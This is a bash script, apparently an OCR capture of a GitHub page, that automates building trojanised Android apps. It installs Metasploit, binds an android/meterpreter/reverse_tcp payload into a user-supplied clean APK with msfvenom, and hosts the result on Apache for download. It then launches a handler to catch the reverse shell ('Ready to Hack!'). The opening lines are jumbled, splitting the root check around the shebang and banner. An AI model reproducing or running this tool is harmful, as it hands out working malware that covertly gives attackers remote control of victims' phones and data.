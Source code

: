 if [[ $(id -u) -ne 0 ]] ; then 
   echo "You #!/bin/bash
# Inject Payload in Android APK
# Created By Mehedi Shakeel
clear
cat << EOF

  _____       _           _              _____  _  __
 |_   _|     (_)         | |       /\   |  __ \| |/ /
   | |  _ __  _  ___  ___| |_     /  \  | |__) | ' / 
   | | | '_ \| |/ _ \/ __| __|   / /\ \ |  ___/|  <  
  _| |_| | | | |  __/ (__| |_   / ____ \| |    | . \ 
 |_____|_| |_| |\___|\___|\__| /_/    \_\_|    |_|\_\ 
            _/ |                                     
           |__/                 Version : 1.0
                             Created By : Manish Chowdhury
                                                   

EOF
sleep 2


#Checking For Root Access
echo "Checking For Root User...."
sleep 2
are Not Root! Please Run as root" ; exit 1 ; 
else echo "Checking For Requirement Packages.." ; 
fi


#Checking and Installing Required Packages
pkgs=(metasploit-framework wget default-jdk aapt apksigner apache2)
for pkg in ${pkgs[@]}
do
 sudo apt install $pkg
done
sleep 2
clear

# Setup New APKTOOL 2.9.0 Manually  Note : DO NOT INSTALL APKTOOL WITH APT PACKAGE MANAGER

sudo mv apktool /usr/local/bin
sudo mv apktool_2.9.0.jar /usr/local/bin
chmod +x /usr/local/bin/apktool
chmod +x /usr/local/bin/apktool.jar
sudo apt install ./zipalign_8.1.0+r23-2_amd64.deb
echo "Required Packages Has Been Installed Sucessfully"

read -p "Write Clean APK Name: " capk

#Setting Up Variables For Injecting
clear
read -p "Set Your LHOST: " lhost
read -p "Set Your LPORT: " lport
echo  "APK Files You Have :" *.apk
read -p "Write the Name For Bind APK: " bapk
clear

#Injecting Payload Into APK
echo "Injecting Payload into Your APK"
msfvenom -x $capk -p android/meterpreter/reverse_tcp lhost=$lhost lport=$lport -o $bapk

#Enabling Web Server and Add Payload
sudo service apache2 start
sudo cp $bapk /var/www/html/
echo "Visit To : http://$lhost/$bapk"
echo "Ready to Hack!"

#Starting Msfconsole Handler
msfconsole -q -x "use exploit/multi/handler; set payload android/meterpreter/reverse_tcp; set lhost $lhost; set lport $lport; exploit;"
